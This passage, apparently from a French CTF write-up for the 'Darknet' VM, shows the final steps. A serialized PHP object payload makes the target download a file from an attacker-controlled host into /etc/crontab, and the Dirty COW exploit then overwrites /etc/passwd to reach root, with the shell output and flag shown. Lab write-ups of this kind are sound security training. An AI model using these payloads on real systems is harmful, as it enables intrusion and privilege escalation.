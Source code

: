 L'exploitation semble on ne peut plus facile : on écrit un script qui instancie un objet Test, écrit les différentes valeurs pour lire une URL sous contrôle et recopier son contenu dans /etc/crontab puis on appelle *serialize()* avant d'envoyer le résultat vers *sec.php* :  

```plain
O:4:"Test":3:{s:3:"url";s:33:"http://192.168.2.240:8000/crontab";s:9:"name_file";s:7:"crontab";s:4:"path";s:4:"/etc";}
```

Sauf que ça ne marche pas... WTF ! Evidemment ça fonctionne sur des tests locaux... Mais il semble que d'autres ont eu des problèmes avec cette VM (espace disque insuffisant, etc).  

Finalement j'ai utilisé [l'exploit de FireFart](https://github.com/FireFart/dirtycow/blob/master/dirty.c) pour [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW) qui édite le fichier */etc/passwd* pour remplacer root par un utilisateur *firefart* avec un mot de passe de notre choix :  

```plain
firefart@Darknet:~# id
uid=0(firefart) gid=0(root) grupos=0(root)
firefart@Darknet:~# ls
flag.txt
firefart@Darknet:~# cat flag.txt
      ___           ___           ___           ___           ___           ___           ___     
     /\  \         /\  \         /\  \         /\__\         /\__\         /\  \         /\  \    
    /::\  \       /::\  \       /::\  \       /:/  /        /::|  |       /::\  \        \:\  \   
   /:/\:\  \     /:/\:\  \     /:/\:\  \     /:/__/        /:|:|  |      /:/\:\  \        \:\  \  
  /:/  \:\__\   /::\~\:\  \   /::\~\:\  \   /::\__\____   /:/|:|  |__   /::\~\:\  \       /::\  \ 
 /:/__/ \:|__| /:/\:\ \:\__\ /:/\:\ \:\__\ /:/\:::::\__\ /:/ |:| /\__\ /:/\:\ \:\__\     /:/\:\__\
 \:\  \ /:/  / \/__\:\/:/  / \/_|::\/:/  / \/_|:|~~|~    \/__|:|/:/  / \:\~\:\ \/__/    /:/  \/__/
  \:\  /:/  /       \::/  /     |:|::/  /     |:|  |         |:/:/  /   \:\ \:\__\     /:/  /     
   \:\/:/  /        /:/  /      |:|\/__/      |:|  |         |::/  /     \:\ \/__/     \/__/      
    \::/__/        /:/  /       |:|  |        |:|  |         /:/  /       \:\__\                  
     ~~            \/__/         \|__|         \|__|         \/__/         \/__/                 

     Sabia que podias Campeon!, espero que esta VM haya sido de tu agrado y te hayas divertido
     tratando de llegar hasta aca. Eso es lo que realmente importa!.

#Blog: www.securitysignal.org

#Twitter: @SecSignal, @q3rv0
```

Richenou
--------

Ce CTF m'a donné du fil à retordre mais m'a permis de découvrir de nouveaux outils, techniques et jouer avec des failles peu courantes :)

*Published March 27 2018 at 12:02*